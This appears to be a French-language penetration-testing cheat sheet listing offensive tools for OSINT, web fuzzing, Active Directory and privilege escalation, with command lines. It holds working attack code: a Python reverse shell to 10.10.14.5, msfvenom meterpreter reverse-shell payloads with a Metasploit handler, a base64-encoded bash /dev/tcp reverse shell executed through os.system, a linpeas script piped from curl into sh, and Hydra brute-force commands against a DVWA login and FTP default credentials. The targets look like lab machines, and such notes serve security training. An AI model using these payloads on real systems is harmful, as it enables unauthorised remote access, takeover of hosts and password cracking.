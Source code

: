 # TOOLS
FrameWork pour OSINT de numero de telephone => phoneinfoga 
FUZZ => Feroxbuster, dirb, dirbuster, gobuster

Scanner de vulnerabilitö web => nikto, Nessus, Rapid7, OpenVas
Done => fuzz sous-domaine + Port Scan (https://github.com/v4d1/Dome) 
wfuzz -H 'Host: FUZZ.****.com' -u 'https://10.10.10.113' -w '/usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt' --hc 301

Scanner de platforme web => BurpSuite, ZAProxy

Reconnaissance passive graphique => Maltego
Reconnaissance passive => Metagoofil

yersinia => Pour les protocoles de communication (Cisco et autre)

CRUNSH : DICO + SEL

CUPP : Création de dico en fonction des noms données

Setoolkit : Social Ingénieuring (copie de site pour récupérer les URL)

hashid : donne le type de hash d'un hash

arpspoof : recupere les requetes ARP et les transmets (man in the middle)

exiftool : metadata du fichier

hexdump : (-C) transformation en hexa du fichier bin

powershell-empire : comme metaspote, exploit windows

KrbRelayUp : Escalation privilege sur Windows en exploitant les requêtes LDAP non-signées

recon-ng : Framework de reconnaissance passive (avec API)

Discover : Framework de reconnaissance passive (avec API) + recon ng + google dorks

pypykatz / Empire : Check des fichiers pour monter les privilèges WINDOWS

linuxprivchecker et linpeas : Check des fichiers pour monter les privilèges LINUX
pspy : Un peu comme Linpeas
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh

Steghide : Extraction de fichier a partir d'un autre fichier et passphrase

crackmapexec : Pentest orienté AD (connexion via plusieurs protocole, script, hash, un couteau suisse)

dnSpy : Reverse Application : https://github.com/dnSpy/dnSpy

------SMB------

enum4linux.py : Fait tout un tas de test sur le SMB

-----Scanner-----

nmapAutomator : 
```
git clone https://github.com/21y4d/nmapAutomator.git
sudo ln -s $(pwd)/nmapAutomator/nmapAutomator.sh /usr/local/bin/
```                
-----WEB------

Nikto : Pentest Web -> check une URL

dirb : brute force pour trouvé des pages web ou des dossiers

zaproxy : Nessus pour le web (scan les vulnérabilitées)

wpscan : scan wordpress -> Puissant

curl : requete vers site web

droopescan : Scan de site Drupal (comme Wpscan pour workPress)

Cewl : récupere les mots d'un site et fait un dico pour brute force

https://whatsmyname.app/ : recherche de compte a partir d'un pseudo 

GTFOBins : Exploit de binaire Linux => https://gtfobins.github.io/


------Reverse Shell -----
rlwrap -caR nc -lvnp $port : Ecoute et stabilise le shell

Netcat Ecoute :
nc -lvnp $port

Avoir un shell :
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
export RHOST="10.10.14.5";export RPORT=4242;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
Autre NetCat : https://github.com/xct/xc
............ : https://github.com/calebstewart/pwncat

https://www.revshells.com/ : Générateur de shell


# BRUTE FORCE
Avec Hydra :
```
CSRF=$(curl -s -c dvwa.cookie "192.168.1.44/DVWA/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
```
```
SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')```
```
```
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.1.44/DVWA/login.php"
```
```
hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt  -P /usr/share/seclists/Passwords/rockyou-40.txt \
  -e ns  -F  -u  -t 1  -w 10  -v  -V  192.168.1.44  http-get-form \
  "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"
```
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://TargetIp
```
# WORDLIST :
```
/usr/share/wordlists
  |--dirb
  |--dirbuster
  |--fasttrack.txt
  |--fern-wifi
  |--metasploit
  |--nmap.lst
  |--rockyou.txt
  |--wfuzz

/usr/share/wordlists/dirb/common.txt => sub domain 

/usr/share/wordlists/dirb/big.txt => sub domain 

/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

/usr/share/seclist/bitquark-subdomains-top100000.txt

/usr/share/seclist/subdomains-top1millions-110000.txt
```


# AD / Windows Tools :

evil-winrm : connection a windows (avec un meterpreter)

BloodHound (avec neo4j)

windapsearch : Recherche sur LDAP (si soucis d'installation faire :
```
sudo pip2 install ldap3 
sudo apt install python3-ldap 
```

# MSFCONSOLE

Quand tu as besoin d'un reverse shell :
```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
```
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
show options
set <RHOST>
set <PORT>
run
```

Reverse shell encodé en bqse64 :
```
echo 'bash -c "bash -i >& /dev/tcp/192.xxx.xx.xx/4444 0>&1"' | base64
-> YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuNy4yNTAuMi80NDQ0IDA+JjEiCg==
```
puis : nc -lvp 4444
```
__import__("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuNy4yNTAuMi80NDQ0IDA+JjEiCg== | base64 -d | bash")

```

# Reverse Shell

- 0. Récupérer le reverse shell avec le wrapper rlwrap (e.g. `rlwrap nc -nlvp 9001`) pour avoir le support des fleches directionnelles (history, droite, gauche etc)
- 1. choper un pty avec `python -c "import pty;pty.spawn('/bin/bash')"` une fois que le revshell est obtenu
- 2. améliorer le pty avec :
- 2.1. <ctrl+z> pour background le revshell
- 2.2.a sur ZSH `stty raw -echo ; fg` puis <enter>
- 2.2.b sur BASH `stty raw -echo` <enter> puis `fg`
- 2.3. dans le revshell, export de la variable TERM avec `export TERM=xterm`
- 2.4. on se fait plaiz avec `alias ll="ls -alh --color"` et `alias grep="grep --color=always"` dans le revshell

